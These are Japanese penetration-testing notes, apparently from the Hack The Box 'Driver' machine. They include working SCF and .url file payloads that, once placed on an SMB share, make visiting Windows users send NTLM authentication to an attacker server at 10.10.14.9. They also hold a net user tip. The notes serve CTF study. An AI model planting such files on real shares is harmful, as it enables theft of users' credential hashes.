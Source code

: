 ## Time
* ユーザがパスワードを変更した時間は、net userのPassword last setから把握できる

## SCF(Shell Command File) file
* ターゲットがSCFファイルの存在するsmb共有ディレクトリにアクセスした際、SCFファイル内で指定された攻撃者サーバにntlmでアクセス
* Htb: Driver

  ```console
  ┌─[rio@parrot]─[~/Htb/Driver]
  └──╼ $cat trigger.scf
  [Shell]
  Command=2
  IconFile=\\10.10.14.9\public
  [Taskbar]
  Command=ToggleDesktop
  ```

##  url file

* ターゲットがurlファイルの存在するsmb共有ディレクトリにアクセスした際、urlファイル内で指定された攻撃者サーバにntlmでアクセス

* Htb: Driver

  ```console
  ┌─[rio@parrot]─[~/Htb/Driver]
  └──╼ $cat trigger.url
  [InternetShortcut]
  URL=whatever
  WorkingDirectory=whatever
  IconFile=\\10.10.14.9\lnk
  IconIndex=1
  ```

## Tips  

  | Command | 説明                       |
  | ------- | -------------------------- |
  | dir /q  | ファイルのオーナを表示する |

  

